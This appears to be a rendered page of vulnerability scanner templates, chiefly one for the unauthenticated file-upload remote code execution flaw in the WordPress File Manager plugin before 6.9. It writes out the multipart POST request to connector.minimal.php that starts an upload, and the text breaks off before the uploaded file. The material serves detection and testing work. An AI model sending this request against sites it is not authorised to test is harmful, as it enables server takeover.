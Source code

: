 - status
  1. 200

**Type - word**

- words
  1. success":true
  2. fullname
  3. shortname
  4. url
- condition - and
- part - body

### Extractors

**Type - regex**

- part - body
- internal - True
- name - wmuSecurity
- group - 1
- regex
  1. wmuSecurity":"([a-z0-9]+)

**Type - regex**

- part - body
- group - 1
- regex
  1. "url":"([a-z:\\/0-9-.]+)"

---

# WordPress File Manager Plugin - Remote Code Execution

## Description

- The WordPress File Manager plugin prior to version 6.9 is susceptible to remote code execution. The vulnerability allows unauthenticated remote attackers to upload .php files.
- severity - critical
- tags - cve,cve2020,wordpress,rce,kev,fileupload,intrusive

## Requests

### Step - 1

```
POST /wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------ca81ac1fececda48

--------------------------ca81ac1fececda48
Content-Disposition: form-data; name="reqid"

17457a1fe6959
--------------------------ca81ac1fececda48
Content-Disposition: form-data; name="cmd"

upload
--------------------------ca81ac1fececda48
Content-Disposition: form-data; name="target"

l1_Lw
--------------------------ca81ac1fececda48
```